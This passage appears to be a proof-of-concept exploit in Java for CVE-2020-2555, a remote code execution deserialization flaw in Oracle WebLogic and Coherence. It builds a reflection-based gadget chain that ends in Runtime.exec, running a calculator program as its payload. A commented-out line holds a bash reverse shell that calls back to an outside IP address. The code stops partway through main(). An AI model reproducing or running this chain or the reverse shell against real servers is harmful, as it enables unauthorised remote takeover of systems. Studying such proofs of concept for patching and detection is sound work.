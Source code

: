 - CVE-2020-2555 PoC

```java
package com.supeream;

// com.supeream from https://github.com/5up3rc/weblogic_cmd/
// com.tangosol.util.extractor.ChainedExtractor from coherence.jar

import com.supeream.serial.Serializables;
import com.supeream.weblogic.T3ProtocolOperation;
import com.tangosol.util.extractor.ChainedExtractor;
import com.tangosol.util.extractor.ReflectionExtractor;
import com.tangosol.util.filter.LimitFilter;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

/*
 * author:Y4er.com
 *
 * gadget:
 *      BadAttributeValueExpException.readObject()
 *          com.tangosol.util.filter.LimitFilter.toString()
 *              com.tangosol.util.extractor.ChainedExtractor.extract()
 *                  com.tangosol.util.extractor.ReflectionExtractor.extract()
 *                      Method.invoke()
 *                      ...
 *                      Runtime.getRuntime.exec()
 */

public class CVE_2020_2555 {

    public static void main(String[] args) throws Exception {
        // Runtime.class.getRuntime()
        ReflectionExtractor extractor1 = new ReflectionExtractor(
                "getMethod",
                new Object[]{"getRuntime", new Class[0]}

        );

        // get invoke() to execute exec()
        ReflectionExtractor extractor2 = new ReflectionExtractor(
                "invoke",
                new Object[]{null, new Object[0]}

        );

        // invoke("exec","calc")
        ReflectionExtractor extractor3 = new ReflectionExtractor(
                "exec",
                new Object[]{new String[]{"galculator"}}
                // new Object[]{new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/172.16.9.15/1004 0>&1"}}
        );

        ReflectionExtractor[] extractors = {
                extractor1,
                extractor2,
                extractor3,
        };
```